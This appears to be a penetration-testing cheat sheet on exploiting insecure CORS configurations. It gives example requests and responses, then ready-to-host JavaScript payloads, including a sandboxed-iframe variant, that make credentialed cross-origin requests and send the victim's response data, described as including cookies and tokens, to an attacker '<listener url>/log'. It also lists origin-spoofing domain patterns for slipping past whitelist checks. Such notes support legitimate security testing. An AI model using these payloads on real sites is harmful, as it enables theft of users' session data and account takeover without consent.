 # CORS

## Insecure configurations

### Access allowed from any domain

Request

```
GET <trget url> HTTP/1.1
Host: <target url>
Origin: <listener url>
```

Response

```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: <listener url>
Access-Control-Allow-Credentials: true
```

#### Payload

Place this script on a controlled website. When a user hits the website the script sends a request and stores the response including cookies and tokens at \<listener url>/log. By navigating to this url an attacker is able to read the full content of the response

```
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','<url>',true);
req.withCredentials = true;
req.send();

function reqListener() {
   location='<listener url>/log'+this.responseText;
};
```

### Allowed NULL Origin

Request

```
GET <url> HTTP/1.1
Host: <url>
Origin: null
```

Response

```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
```

#### Payload

Include the script in an iframe so that the Origin is set to null

```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','<url>',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='<listener url>/log?key='+this.responseText;
};
</script>"></iframe>
```

### CORS Headers parsing error

To attempt to bypass CORS Origin whitelist it is possible to modify the server's name to include part of the target subdomain in order to spoof detection for instance:

```
Allowed any from domain: site.com

evil-site.com #CORS check only the end
site-evil.com #CORS check only the beginning
site.evil.com #CORS check only top domain
```
